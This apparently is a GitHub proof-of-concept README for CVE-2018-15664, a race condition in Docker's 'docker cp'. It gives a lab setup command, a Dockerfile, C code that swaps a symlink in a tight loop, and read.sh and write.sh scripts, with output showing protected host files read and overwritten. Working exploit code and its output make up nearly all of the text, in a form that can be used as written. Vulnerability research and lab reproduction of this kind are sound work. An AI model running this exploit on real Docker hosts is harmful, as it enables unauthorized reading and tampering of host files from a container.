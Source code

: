## Proof of Concept Docker-Race-Condition-Vulnerability

To perform the Proof of Concept for CVE-2018-15664, please follow the below steps:

This is an attack that exploits the `docker cp` command

1. Prepare the environment using the following command in metarget's folder <br />
    ```
    sudo ./metarget cnv install cve-2018-15664
    ```

2. Setup the following `Dockerfile`<br />

    ```Dockerfile
    FROM ubuntu:20.04
    RUN apt-get update && apt-get install -y gcc
    COPY symlink_swap.c /symlink_swap.c
    RUN gcc -o /symlink_swap /symlink_swap.c
    ENTRYPOINT ["/symlink_swap"]
    ```
3. Create the file `symlink_swap.c` in the host as follows: <br />
    ```c
    #define _GNU_SOURCE
    #include <unistd.h>
    #include <sys/stat.h>
    #include <stdio.h>
    #include <fcntl.h>

    int main()
    {
      symlink("/", "/totally_safe_path");
      mkdir("/totally_safe_path-stashed", 0755);

      while (1)
        renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);

      return 0;
    }
    ```
4. Perform a read exploit (**Arbitrary read**)  <br />
    - Setup flags and revoke read permissions

        ```
        $ echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee /w00t_w00t_im_a_flag
        SUCCESS -- COPIED FROM THE HOST
        $ cat /w00t_w00t_im_a_flag
        SUCCESS -- COPIED FROM THE HOST
        $ sudo chmod 000 /w00t_w00t_im_a_flag
        $ cat /w00t_w00t_im_a_flag
        cat: /w00t_w00t_im_a_flag: Permission denied
        ```
    - Use the following script named `read.sh` to perform arbitrary reads:

        ```bash
        #!/bin/sh

        # Build and run the image.
        docker build -t poc .
        container_id=$(docker run --rm -d poc)

        # Now continually try to copy the files.
        i=0
        while [ $i -lt 500 ]
        do
          mkdir "ex${i}"
          docker cp "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag" "ex${i}/out"
          i=$(($i + 1))
        done
        chmod 0644 ex*/out
    - Run the `read.sh` and check arbitrary reads

        ```sh
        $ ./read.sh  # Exploit (Performs 500 reads will take time)
        $ grep 'SUCCESS' ex*/out | wc -l

5. Perform a write exploit (**Arbitrary write**)
    - Setup flags and revoke write permissions

      ```
      $ echo "FAILED -- HOST FILE UNCHANGED" | sudo tee /w00t_w00t_im_a_flag
      FAILED -- HOST FILE UNCHANGED
      $ sudo chmod 0444 /w00t_w00t_im_a_flag
      $ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag 
      bash: /w00t_w00t_im_a_flag: Permission denied
      ```
    - Use the following script named `write.sh` to perform arbitrary writes:
 
      ```bash
      #!/bin/sh

      # Build and run the image.
      docker build -t poc .
      container_id=$(docker run --rm -d poc)

      echo "SUCCESS -- HOST FILE CHANGED" > localpath

      # Now continually try to copy the files.
      i=0
      while [ $i -lt 500 ]
      do
        docker cp localpath "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag"
        i=$(($i + 1))
      done
      ```
    - Run the `write.sh` to perform arbitrary writes:

      ```
      $ cat /w00t_w00t_im_a_flag
      FAILED -- HOST FILE UNCHANGED
      $ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag
      bash: /w00t_w00t_im_a_flag: Permission denied
      $ ./write.sh  # Exploit (will take some time)
      $ cat /w00t_w00t_im_a_flag
      SUCCESS -- HOST FILE CHANGED
      ```
